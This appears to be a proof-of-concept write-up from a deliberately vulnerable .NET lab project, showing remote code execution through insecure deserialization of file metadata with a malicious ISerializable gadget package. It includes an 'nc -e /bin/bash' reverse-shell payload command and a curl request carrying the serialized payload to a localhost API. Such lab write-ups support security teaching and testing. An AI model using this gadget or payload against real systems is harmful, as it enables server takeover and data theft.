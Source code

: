 A custom gadget was developed using the [ISerializable interface](https://learn.microsoft.com/en-us/dotnet/api/system.runtime.serialization.iserializable?view=net-9.0) to control the serialization and deserialization processes. This gadget enables the execution of arbitrary code (e.g., launching a reverse shell) during object deserialization.

- **Mechanism:**
  - **Serialization Control:** Defines custom logic to manipulate deserialization.
  - **Code Execution:** Executes arbitrary code during object deserialization.

- **Deployment:**  
  Packaged as a malicious external package. When integrated into the `WriteFileMetadata` functionality, it renders the application vulnerable to RCE attacks.

#### Attack Execution

1. **Payload Generation:**  
   Attacker crafts a malicious payload using the custom package.

2. **Deserialization Process:**
   - **Execution Trigger:** During deserialization, the payload manipulates the process to execute arbitrary code before object creation, resulting in a `500` Internal Server Error.
   - **Reverse Shell Deployment:** Establishes a reverse shell connection, providing persistent server access for further unauthorized actions such as data exfiltration or privilege escalation.

## Proof of Concept

### Malicious Package

A malicious package was created containing the [`ProcessWrapper`](../../../Packages/MaliciousMetadataWriter/MaliciousMetadataWriter.cs) class. This class implements the `ISerializable` interface, enabling the execution of arbitrary code during the deserialization process.

### Payload Generator

The [payload generator](PoC/PayloadGenerator.cs) generates serialized malicious metadata using the `ProcessWrapper` class. The payload is created with the following command:

```bash
dotnet run nc 127.0.0.1 4432 -e /bin/bash
```

### Uploading the Payload
The serialized malicious metadata is uploaded to the vulnerable API endpoint using the following curl command:

```bash
curl -X 'POST' \
  'https://localhost:7037/api/AssignMetadataToFile?fileId=1&serializedMetadata=AAEAAAD%2F%2F%2F%2F%2FAQAAAAAAAAAMAgAAAE5NYWxpY2lvdXNNZXRhZGF0YVdyaXRlciwgVmVyc2lvbj0xLjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPW51bGwFAQAAACZNYWxpY2lvdXNNZXRhZGF0YVdyaXRlci5Qcm9jZXNzV3JhcHBlcgIAAAAIRmlsZU5hbWUJQXJndW1lbnRzAQECAAAABgMAAAACbmMGBAAAABsxMjcuMC4wLjEgNDQzMiAtZSAvYmluL2Jhc2gL' \
  -H 'accept: text/plain' \
  -d ''
```
